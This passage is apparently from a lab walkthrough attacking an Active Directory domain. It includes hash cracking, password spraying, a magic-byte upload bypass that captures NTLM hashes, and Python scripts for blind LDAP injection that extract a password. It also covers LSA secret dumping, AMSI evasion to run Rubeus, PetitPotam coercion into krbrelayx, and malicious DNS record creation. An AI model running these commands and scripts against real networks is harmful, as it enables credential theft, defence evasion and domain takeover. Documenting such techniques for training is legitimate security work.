

Based on the output from the user enumeration, the company name, and the origin, a context-based wordlist of Lithuanian passwords from 2019-2020 was used.
`https://github.com/lexcor/LT-SecList`

I used this to crack the service ticket with `-m 13100` instead of `-m 5600`. This can be easily confused, as NTLMv2 stems from the challenge/response computed from the NT hash, while the Kerberos RC4 is encrypted with the service account's NT hash.

```
hashcat svchelpdesk.txt LT-SecList/LT-Top500k.txt -a 0 -m 13100 --potfile-disable
```


The final output is `Slaptazodis123`.
## Password Reuse: b.vytas's access to tickets leads to a file upload bypass via magic bytes

I used `svc_helpdesk`'s password to spray the other users.

```
nxc smb 10.0.0.10 -u "svc_helpdesk" -p "Slaptazodis123" --users-export users.list
nxc smb 10.0.0.10 -u users.list -p "Slaptazodis123" --continue-on-success
```

`b.vytas` reused the same password as `svc_helpdesk`. Logging in with `b.vytas@lab.local` gave me access to `https://helpdesk.lab.local/ticket.php`. The help desk cooperates with HR through separation of duties, so Restricted is unavailable.

The `GIF89a` header let me bypass the `getimagesize` check as it only reads the byte structure. The blocklist does not stop me from uploading a `.url` file as it only covers `.php`, `.phtml`, `.phar`, `.exe`, `.bat`, `.ps1`, `.sh`, `.js` and `.html`. The better option here would be to use an allow list.

I generated the `.url` file, prepended `GIF89a`, started the capture with Responder, checked `Remote` for the assistance type, and then submitted the ticket.

```
python3 ntlm_theft.py -g url -s 10.6.6.100 -f screenshot
sed -i '1i GIF89a' 'screenshot/screenshot-(url).url'
```



Upon receiving the callback, I cracked it with the context-based wordlist.

```
hashcat daudra.txt LT-SecList/LT-Top500k.txt -a 0 -m 5600 --potfile-disable
```

The final output is `Tikrasvartotojas123`.
## BALA: Blind LDAP injection with password leaking through the info attribute
Logging in with `d.audra@lab.local` gave me access to the Base Active Lookup Agent (BALA). BALA allows members of the Help Desk Restricted group to search up HR contact information and route tickets to the `Tickets/HR` share.

The first thing that comes to an attacker's mind when seeing a search query is SQL injection.

```
ffuf -w Generic_SQLi.txt -u https://helpdesk.lab.local/lookup.php -b "PHPSESSID=4b5ffc711bda09d9cd66f44f314f3d47" -X POST -d "bala=d.audra@lab.localFUZZ" -H "Content-Type: application/x-www-form-urlencoded" -t 20 -rate 20
```

Search queries such as `\x27UNION SELECT`, `)%20or%20('x'='x`, and `(` return `500`, while `%20or%201=1`, `//`, and `|` return `200` with the message "No users found". The difference in the response depends on whether parentheses exist. Since `\` is followed by `x27`, it is invalid as hexadecimals must be in `a-f`, `A-F`, `0-9` range. Testing for `\64.audra@lab.local` produces `1 user found.`, indicating LDAP instead of SQL, as it successfully decoded the value `\64` to `d`. With a wildcard `*`, it returns the whole user list.



AD user comments like plaintext passwords can end up in the attributes for multiple reasons, such as a coworker forgetting their login, legacy startup scripts, or the belief that restrictive permissions will prevent `Authenticated Users` from accessing the attribute. I found these articles that list the attributes where passwords are commonly stored:

- `https://www.hackingarticles.in/credential-dumping-ad-user-comment/`: `description`
- `https://echeloncyber.com/intelligence/entry/offsec-quick-tips-info-attribute`: `info`
- `https://docs.horizon3.ai/knowledge_base/weaknesses/H3-2023-0029/`: `userPassword`, `unicodePwd`, `UnixUserPassword`, `sfupassword`

Earlier I exported the `users.list`, which I will use to find the exact user that holds one of these specific attributes. If the user or attribute does not exist, it will return `No users found`. Otherwise, the result will show `1 user found.`. ffuf can hold more than one wordlist by giving the fuzz keyword a custom name.

```
ffuf -w attributes.txt:ATR -w users.list:USR -u https://helpdesk.lab.local/lookup.php -b "PHPSESSID=15729e16ea04386908cd45c0d5a7773b" -X POST -d 'bala=USR@lab.local)(ATR=*' -H "Content-Type: application/x-www-form-urlencoded" -t 20 -rate 20 -fr "No users found"
```




The results indicate that the `info` attribute is assigned to `v.henrikas`. Before starting with the Python script, I downloaded the certificate from the webpage. `verify=False` can be a fast way to disable TLS/SSL verification, but it also leaves the client exposed to MITM.
 
```
openssl s_client -connect 10.0.0.50:443 -servername helpdesk.lab.local </dev/null | openssl x509 > lab.pem
```

In the first iteration of the script, I stored each hit in a `dict` keyed by position, but I used `assign += value` instead to make it simpler. There's also a better way to get a list of words and numbers, and it does not escape special characters yet, so I ended up only with `baltyte`.

```
import requests

url = "https://skyrius.lab.local/login.php"
bala = "https://helpdesk.lab.local/lookup.php"
credentials = {
    "email": "d.audra@lab.local",
    "password": "Tikrasvartotojas123"
}
match = []
assign = ""
dictionary = "a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z,0,1,2,3,4,5,6,7,8,9"
splitdict = dictionary.split(",")

with requests.Session() as session:
    response = session.post(url, data=credentials, verify="lab.pem")
    while True:
        for value in splitdict:
            lookup = {"bala" : f"v.henrikas@lab.local)(info={assign}{value}*"}
            response = session.post(bala, data=lookup, verify="lab.pem")
            if "1 user found." in response.text:
                match.append(f"{value}")
                assign += value
                break
        else:
            break
for value in match:
    print(value)

```

The second iteration imported string. It escapes a character such as `\` by returning `\5c` to the `info` attribute, which makes it valid for LDAP. If 1 user is found, the match gets `\` while assign gets `\5c`. The final output is `baltyte(071389)katinas*`.
```
import requests
import string

url = "https://skyrius.lab.local/login.php"
bala = "https://helpdesk.lab.local/lookup.php"
credentials = {
    "email": "d.audra@lab.local",
    "password": "Tikrasvartotojas123"
}
match = []
assign = ""
dictionary = string.ascii_lowercase + string.digits + string.punctuation
specialchars = {"*": r"\2a", "(": r"\28", ")": r"\29", "\\": r"\5c"}

with requests.Session() as session:
    response = session.post(url, data=credentials, verify="lab.pem")
    while True:
        for value in dictionary:
            escape = specialchars.get(value, value)
            lookup = {"bala" : f"v.henrikas@lab.local)(info={assign}{escape}*"}
            response = session.post(bala, data=lookup, verify="lab.pem")
            if "1 user found." in response.text:
                match.append(f"{value}")
                assign += escape
                break
        else:
            break
print("".join(match))

```

Script: [`scripts/attributefuzz.py`](scripts/attributefuzz.py)

Similar to the case-insensitivity found in NTFS, AD decides case sensitivity in filters based on the attribute's syntax. `info` is String(Unicode) which is case-insensitive, but if it was `userPassword` or `unixUserPassword`, `string.ascii_uppercase` would need to be included in the script as these are case-sensitive. Capitalizing `b` and `k` gave the correct password on the second try.

## Deleted Objects: restoring s.robertas and resetting his password

I checked `v.henrikas`'s privileges.

```
bloodyad -H 10.0.0.10 -u v.henrikas -p 'Baltyte(071389)Katinas*' get writable
```

The result is `WRITE` on `CN=Deleted Objects` and `CN=Robertas Smidtas\0ADEL`, meaning that I could recover him from the recycle bin.



Used `v.henrikas` to restore `s.robertas` and reset his password.
```
bloodyad -H 10.0.0.10 -u v.henrikas -p 'Baltyte(071389)Katinas*' set restore s.robertas

bloodyad -H 10.0.0.10 -u v.henrikas -p 'Baltyte(071389)Katinas*' set password s.robertas 'OctoberSpooks!'
```




Retrying BloodHound can enhance path finding with a new account, as the previous attempts did not succeed.

```
bloodhound-ce-python -u v.henrikas -p 'Baltyte(071389)Katinas*' -ns 10.0.0.10 -c All --zip -d lab.local
```



Checked my writable permissions, and added `s.robertas` to `GG-HR-Administrator`.

```
bloodyad -H 10.0.0.10 -u s.robertas -p 'OctoberSpooks!' get writable

bloodyad -H 10.0.0.10 -u s.robertas -p 'OctoberSpooks!' add groupMember GG-HR-Administrator s.robertas
```


`nxc smb 10.0.0.50 -u s.robertas -p 'OctoberSpooks!'`
The output is `(Pwn3d!)`, which means that I have local administrator rights.


## Unconstrained Delegation: dumping k.lilija's password in plaintext

Logging in as `s.robertas` and querying the session, I can see that `k.lilija` is disconnected, but this doesn't mean I can't dump her credentials.

```
evil-winrm -i 10.0.0.50 -u s.robertas -p 'OctoberSpooks!'
query session
```


Sysinternals Autologon stores her password as an LSA secret. With local administrator rights as `s.robertas`, I can decrypt it and read it in plaintext.

```
secretsdump.py lab.local/s.robertas:'OctoberSpooks!'@10.0.0.50
```


The output shows her default password in plaintext: `LAB\k.lilija:V0lkw1n@v0n*Na4mb4rg!zu(Winterstatten)@`. In BloodHound, I spotted the trusted for delegation edge and checked manually as well:

```
nxc ldap 10.0.0.10 -u s.robertas -p 'OctoberSpooks!' --trusted-for-delegation
```

I downloaded the binary `Rubeus.exe` from the GhostPack compiled binaries repository: `https://github.com/r3motecontrol/Ghostpack-CompiledBinaries`. Unfortunately, the binary gets detected by AMSI. I used go-buena-clr to get around this restriction: `https://github.com/almounah/go-buena-clr`.

On `WS01` via evil-winrm:
`$env:PROCESSOR_ARCHITECTURE` returns `amd64`

I ran the `helper/helper.go`, where it executes ordinal encoding in XOR via Go. On Kali:
`go run helper/helper.go -file=Rubeus.exe && GOOS=windows GOARCH=amd64 go build`



For the AMSI demonstration, I used `k.lilija`'s user due to her credentials already being cached. Next, I used `s.robertas` to abuse unconstrained delegation.

Connecting to `WS01` via evil-winrm in Kali:

```
evil-winrm -i 10.0.0.50 -u s.robertas -p 'OctoberSpooks!'

upload /home/kali/Downloads/go-buena-clr/examples/BuenaVillage/buenavillage.exe buenavillage.exe

buenavillage.exe monitor /interval:5 /nowrap
```

Earlier, I dumped the hash to get `k.lilija`'s password, but the `aes256-cts-hmac-sha1-96` field also displayed the AES key for `WS01`, which has unconstrained delegation. To get the domain controller's TGT, I need it to connect to `WS01`, as it will save a copy of that ticket in memory. The only issue is that Domain Controllers do not connect outbound sessions by default, so I have to coerce it, either using PrinterBug or PetitPotam. Since PrinterBug is dependent on the Print Spooler and disabled in most DC environments, PetitPotam is the superior choice, as it can also work with AD CS coercion.

Running krbrelayx:

```
krbrelayx -aesKey 1e752bcfa939a78574214e96508d8972da53c87f1d4ca60186c4188ae958698e
```

Then triggering PetitPotam:

```
python PetitPotam.py -dc-ip 10.0.0.10 -d lab.local -u s.robertas -p 'OctoberSpooks!' 10.6.6.100 10.0.0.10
```

Kerberos has a maximum of a 5-minute clock skew, which can stop PetitPotam from working, so I synced the clock within another terminal in Kali:

```
ntpdate -u 10.0.0.10
```

Once triggered, krbrelayx threw an error:

```
[*] SMBD: Received connection from 10.0.0.10
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
```



Kerberos relies on `SPN` to request tickets from a DC. When an IP address is targeted, Windows automatically falls back to NTLM authentication, so I need to specify the FQDN instead. For that to work, I need to add DNS:

```
bloodyad -u s.robertas -p 'OctoberSpooks!' -d lab.local --host 10.0.0.10 add dnsRecord HP-LaserJet-4000 10.6.6.100
```

I could've also used a wildcard here:

```
bloodyad -u s.robertas -p 'OctoberSpooks!' -d lab.local --host 10.0.0.10 add dnsRecord '*' 10.6.6.100
```

Since explicit DNS always takes precedence over wildcard records, `ws01.lab.local` and `dc01.lab.local` will resolve, but if someone tries to query `nonexistent.lab.local`, it will automatically point to the attacker's machine. This is useful later as an enterprise-wide responder, as I will eventually block LLMNR/NBT-NS spoofing. By default, the Authenticated Users group has the `Create Child Objects` permission, which allows it to write new DNS records. For now, creating a single `A` record ensures that my logs don't get polluted.

In a lot of scenarios, you might stumble into the guide trap. PetitPotam tutorials put the attacker as the listening IP because they're relaying, while I was doing a harvesting attack. The workstation needs to hold the `SPNs` in order to coerce the Domain Controller, otherwise it will refuse to issue a Kerberos ticket. Since `WS01` already holds the `SPNs`, I could've just used its FQDN instead:

```
python PetitPotam.py -dc-ip 10.0.0.10 -d lab.local -u s.robertas -p 'OctoberSpooks!' ws01.lab.local 10.0.0.10
```
